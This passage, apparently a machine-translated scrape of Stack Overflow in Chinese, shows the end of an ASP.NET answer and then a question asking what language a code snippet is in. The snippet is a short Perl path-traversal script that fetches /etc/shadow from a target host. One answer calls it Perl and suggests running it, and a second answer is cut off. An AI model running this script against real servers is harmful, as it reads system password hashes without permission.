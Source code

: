     }
} 
```

else 部分中的行，它只显示消息，但页面也会在此之后加载。

* * *

## 回答 #1

> 赞同：0
> 
> 时间：2013-01-09T06:54:09.013

在找不到文件时，我使用 Responce.Redirect 再次将其重定向到当前页面，在此之前我将 bool 存储在会话变量中，并在页面加载时检查会话变量是否包含某些值，然后显示消息. 另外，我在上面的 if 表达式中也清除了会话。

# programming-languages - 那是什么样的代码？

> ID：14220107
> 
> 赞同：0
> 
> 时间：2013-01-08T16:55:04.260
> 
> 标签：programming-languages

我这里有一个代码，但我不知道它是用什么语言编写的，以及如何运行它。

```
use LWP::UserAgent;
$host = $ARGV[0];
chomp($host);
if($host !~ /http:\/\//) { $host = "http://$host"; };

my $ua = LWP::UserAgent->new;
$ua->timeout(30);
$lfi = "/help/../../../../../../../../etc/shadow";
$url = $host.$lfi;
$request = HTTP::Request->new('GET', $url); $response =
$ua->request($request); my $html = $response->content; if($html =~ /root/) {
print "root$' \n" ; } 
```

* * *

## 回答 #1

> 赞同：1
> 
> 时间：2013-01-08T16:56:41.530

对我来说看起来像 Perl。你试过了吗

`perl thefile?`

* * *

## 回答 #2

> 赞同：1
> 
> 时间：2013-01-08T17:02:22.837

```